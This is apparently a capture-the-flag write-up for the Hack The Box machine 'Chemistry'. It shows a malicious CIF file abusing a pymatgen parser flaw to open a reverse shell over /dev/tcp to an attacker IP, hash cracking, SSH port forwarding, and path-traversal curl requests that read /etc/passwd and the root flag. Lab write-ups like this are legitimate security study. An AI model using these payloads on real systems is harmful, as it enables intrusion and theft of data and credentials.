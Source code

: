 # HTB - Chemistry

**IP Address:** `10.10.11.38`  
**OS:** Ubuntu  
**Difficulty:** Easy  
**Tags:** Flask, File Upload, Python Werkzeug, Reverse Shell, Hash Cracking, LFI

---

## 1. Port Scanning

### 1.1 Nmap Scan

```bash
nmap -sV -sC 10.10.11.38
```

**Open Ports:**

- `22/tcp` → SSH (OpenSSH 8.2p1)
- `5000/tcp` → HTTP (Werkzeug 3.0.3 Python/3.9.5)

---

## 2. Web Enumeration

### 2.1 Basic Access

Visited `http://10.10.11.38:5000`.  
Found a Flask-based app: **"Chemistry CIF Analyzer"**

Options to `Register` and `Login`.  
Created user: `banana:banana`.

### 2.2 Upload Functionality

After login, users can upload `.cif` (Crystallographic Information Format) files.

Discovered an RCE vulnerability in `pymatgen` CIF parser:  
[GHSA-vgv8-5cpj-qj2f](https://github.com/advisories/GHSA-vgv8-5cpj-qj2f)

Crafted malicious CIF file with payload:

```cif
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__(*[
().__class__.__mro__[1]]+["__sub" + "classes__"])() if d.__name__ == "BuiltinImporter"][0].load_module(
"os").system("/bin/bash -c \'/bin/bash -i >& /dev/tcp/10.10.14.105/9090 0>&1\'");0,0,0'
```

---

## 3. Reverse Shell Access

On attacker's machine:

```bash
nc -lnvp 9090
```

Uploaded the malicious `.cif` file and got a reverse shell from the server.  
Found user data in the instance's directory.

---

## 4. Password Extraction & Cracking

Located the database and extracted hash for user `rosa`:

```
63ed86ee9f624c7b14f1d4f43dc251a5
```

Used [CrackStation](https://crackstation.net/) to crack it.  
✅ Password: `molteniron`

SSH login with:

```bash
ssh rosa@10.10.11.38
```

🏁 **User flag obtained**

---

## 5. Privilege Escalation

### 5.1 Port Forwarding

Rosa's user had access to a local service at `127.0.0.1:9999`.  
Used SSH to port-forward:

```bash
ssh -L 9999:127.0.0.1:9999 rosa@10.10.11.38
```

### 5.2 Exploiting LFI

Accessed:

```bash
curl --path-as-is http://127.0.0.1:9999
```

Then tried:

```bash
curl --path-as-is http://127.0.0.1:9999/assets/../../../etc/passwd
```

✅ Confirmed Local File Inclusion

Accessed root flag:

```bash
curl --path-as-is http://127.0.0.1:9999/assets/../../../root/root.txt
```

🏁 **Root flag obtained**

---

# ✅ MACHINE COMPLETE
